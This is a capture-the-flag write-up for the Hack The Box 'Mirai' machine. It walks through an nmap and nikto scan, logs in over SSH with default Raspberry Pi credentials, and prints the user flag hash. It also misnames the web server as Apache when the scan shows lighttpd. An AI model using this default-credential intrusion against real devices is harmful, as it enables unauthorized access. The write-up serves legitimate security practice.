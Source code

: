 # MIRAI WRITEUP
###### IP-Addres: 10.10.10.48
###### Operation-System: Linux
[Mirai](https://www.hackthebox.eu/home/machines/profile/64)

## RECONNAISSANCE
**NMAP Scan:**
```nmap -sS -sV 10.10.10.48

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-15 07:28 EDT
Nmap scan report for 10.10.10.48
Host is up (0.023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp   open  domain  dnsmasq 2.76
80/tcp   open  http    lighttpd 1.4.35
2010/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```
We see, there is a Apache and a SSH server running.
We also know, Mirai was a botnet that spread by only checking IOT-Devices for default login.
So we go on the Webserver first and see: NOTHING. But why shouldn't we run nikto on it just to see if it got something juicy?
Lets see.
**NIKTO SNIPPET**

```+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

After we go to the admin/index.php page, we see its a raspberry pi. After googling few minutes, the default login credentials for a raspberry pi are:
*pi:raspberry*
Let's go to SSH and login.
```ssh pi@10.10.10.48
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
``` 

We got in. Show me what you got.

```pi@raspberrypi:~ $ ls -a
.              .config          .thumbnails           Public
..             .dbus            .xsession-errors      Templates
.Xauthority    .gstreamer-0.10  .xsession-errors.old  Videos
.asoundrc      .gtkrc-2.0       Desktop               background.jpg
.bash_history  .local           Documents             oldconffiles
.bash_logout   .pki             Downloads             python_games
.bashrc        .profile         Music
.cache         .themes          Pictures
pi@raspberrypi:~ $ cd Desktop
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707441b257a20e32199d7c8838d
```
Voilá. we got in. 

**More will come**
